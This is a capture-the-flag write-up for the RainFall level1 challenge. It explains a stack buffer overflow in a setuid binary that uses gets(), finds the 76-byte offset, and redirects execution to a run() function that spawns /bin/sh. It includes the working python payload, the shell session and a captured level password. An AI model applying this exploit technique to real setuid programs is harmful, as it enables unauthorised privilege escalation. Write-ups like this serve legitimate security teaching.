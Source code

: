 level1
======

*	We spawn with a [level1](source/level1) executable
	```console
	level1@RainFall:~$ ls -l
	total 732
	level1@RainFall:~$ ls -l 
	total 8
	-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
	level1@RainFall:~$ ./level1
	█
	level1@RainFall:~$ ./level1 test
	█
	```
*	So we get an endless loop here, let's do as usual
	```console
	root@DESKTOP-69N2SL4:~# scp -P 4242 level1@192.168.29.4:~/level1 .
	root@DESKTOP-69N2SL4:~# ./getFunctions.sh
	```
*	When we take a look at the main it looks like I was wrong, the code use the function `gets()` which led me to think that the program is reading the input (My mistake here, I should've at least tried to add something)
*	We also have another function called `run()`, this one uses `fwrite()`.
*	Looking deeper into gdb, we can see that it takes $eax=`("Good... Wait what?\n")` and then it calls `system()` to execute `/bin/sh`
*	So, now we are dealing with a [Buffer Overflow Attack](https://www.imperva.com/learn/application-security/buffer-overflow/)
*	Here we can see the buffer is sized `80` bytes
	```assembly
	sub    $0x50,%esp
	```
*	Instead of using i used a generated string from this [website](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/) to make sure the address is ok
	```console
	level1@RainFall:~$ echo str > /tmp/exlpoit
	```
*	Since this program is more of a buffer *over-READ* issue, we need to put our exploit in a file instead of doing it on the terminal directly
	```console
	level1@RainFall:~$ gdb ./level1
	(gdb) r < /tmp/exploit
	Starting program: /home/user/level1/level1 < /tmp/exploit

	Program received signal SIGSEGV, Segmentation fault.
	0x63413563 in ?? ()
	```
*	I found this [website](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/) to get calculate the offset and it is `76`
*	Our exploit will be the usgin the run function.
	```assembly
	08048444 <run>:
	```
*	In many modern systems, including Intel x86 and x86_64 architectures, little-endian is the prevalent byte order. So we add `\x44\x84\x04\x08` in the end of the exploit.
*	Let's try this, this time I use python to make this more readable:
	```console
	level1@RainFall:~$ python -c 'print "a" * 76 + "\x44\x84\x04\x08"' > /tmp/exploit
	level1@RainFall:~$ cat /tmp/exploit | ./level1 
	Good... Wait what?
	Segmentation fault (core dumped)
	```
	Make sure to use `echo -e` if you don't use python print because the memory part won't be interpreted as binary data.
*	The issue here is that the `/bin/sh` will shutdown because it is trying to read `STDIN`. We have to make sure cat keeps reading, there is many ways to do so :
	```console
	level1@RainFall:~$ (cat /tmp/exploit; cat) | ./level1
	level1@RainFall:~$ cat /tmp/exploit - | ./level1
	Good... Wait what?
	whoami
	level2
	cat /home/user/level2/.pass
	53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
	```